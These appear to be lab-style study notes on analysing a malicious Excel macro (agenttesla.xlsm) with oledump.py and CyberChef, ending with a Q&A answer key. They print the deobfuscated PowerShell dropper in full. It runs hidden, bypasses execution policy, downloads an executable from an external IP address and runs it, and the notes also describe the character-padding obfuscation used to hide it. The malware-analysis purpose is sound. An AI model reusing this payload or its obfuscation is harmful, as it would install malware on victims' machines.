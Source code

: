 
#### 🔧 Tool Overview

- **oledump.py**
    
    - Python tool for analyzing **OLE2/Structured Storage** files.
        
    - These are common formats for MS Office docs (Word, Excel, PowerPoint).
        
    - Can list, extract, and decompress **embedded macros** and data streams.
        
    - Very useful for **malware detection** (macros, obfuscation, payload delivery).
        

---

#### 📌 Key Parameters

- **`oledump.py <file>`**
    
    - Lists all streams inside the OLE file.
        
- **`-s <number>`**
    
    - **Selects** a specific data stream by index.
        
    - Example: `oledump.py agenttesla.xlsm -s 4`
        
- **`--vbadecompress`**
    
    - Decompresses obfuscated VBA macros into readable code.
        
    - Example: `oledump.py agenttesla.xlsm -s 4 --vbadecompress`
        

---

#### 📂 Example: agenttesla.xlsm

Running:

`oledump.py agenttesla.xlsm`

Output:

`A: xl/vbaProject.bin  A1:  468 'PROJECT'  A2:   62 'PROJECTwm'  A3: m 169 'VBA/Sheet1'  A4: M 688 'VBA/ThisWorkbook'  A5:    7 'VBA/_VBA_PROJECT'  A6:  209 'VBA/dir'`

- `M` = Macro present.
    
- **Macro of interest:** `A4: VBA/ThisWorkbook`.
    

---

#### 🔎 Decompressing the Macro

`oledump.py agenttesla.xlsm -s 4 --vbadecompress`

Finds obfuscated string in variable `Sqtnew`:

`Sqtnew = "^p*o^*w*e*r*s^^*h*e*l^*l* *^-*W*i*n*^d*o*w^*S*t*y*^l*e* *h*i*^d*d*^e*n^* ... " Sqtnew = Replace(Sqtnew, "*", "") Sqtnew = Replace(Sqtnew, "^", "")`

➡ Obfuscation method: Inserts `*` and `^` randomly.  
➡ Script then **replaces them with nothing**, restoring the real code.

---

#### 🛠️ Deobfuscation with CyberChef

Steps:

1. Copy obfuscated `Sqtnew` string.
    
2. Open CyberChef (local or online).
    
3. Use **Find/Replace** twice:
    
    - Replace `*` with nothing.
        
    - Replace `^` with nothing.
        

➡ Reveals full PowerShell payload.

---

#### 📜 Decoded PowerShell Script

`powershell -WindowStyle hidden -executionpolicy bypass; $TempFile = [IO.Path]::GetTempFileName() |   Rename-Item -NewName { $_ -replace 'tmp$', 'exe' } PassThru; Invoke-WebRequest -Uri "http://193.203.203.67/rt/Doc-3737122pdf.exe" -OutFile $TempFile; Start-Process $TempFile;`

---

#### ⚙️ Breakdown of Script

- **`powershell -WindowStyle hidden`**
    
    - Hides PowerShell window to avoid alerting the user.
        
- **`-executionpolicy bypass`**
    
    - Ignores PowerShell restrictions, allows any script to run.
        
- **`[IO.Path]::GetTempFileName()`**
    
    - Generates a temporary file path (e.g., `C:\Users\<user>\AppData\Local\Temp\...`).
        
- **`Rename-Item -replace 'tmp$', 'exe'`**
    
    - Changes `.tmp` extension → `.exe`.
        
    - Ensures malware is executable.
        
- **`Invoke-WebRequest -Uri <URL> -OutFile <path>`**
    
    - Downloads file from the internet.
        
    - In this case: `Doc-3737122pdf.exe` from `http://193.203.203.67/rt/`.
        
- **`Start-Process $TempFile`**
    
    - Executes downloaded file (launches malware).
        

➡ **Technique:** Classic **macro → PowerShell → payload download & execute**.

---

#### 📝 Q&A Review

- **Tool for analyzing OLE2 files?** → `oledump.py`
    
- **Parameter to select data stream?** → `-s`
    
- **Command to download files in PowerShell?** → `Invoke-WebRequest`
    
- **Downloaded file name?** → `Doc-3737122pdf.exe`
    
- **Storage location?** → `$TempFile`
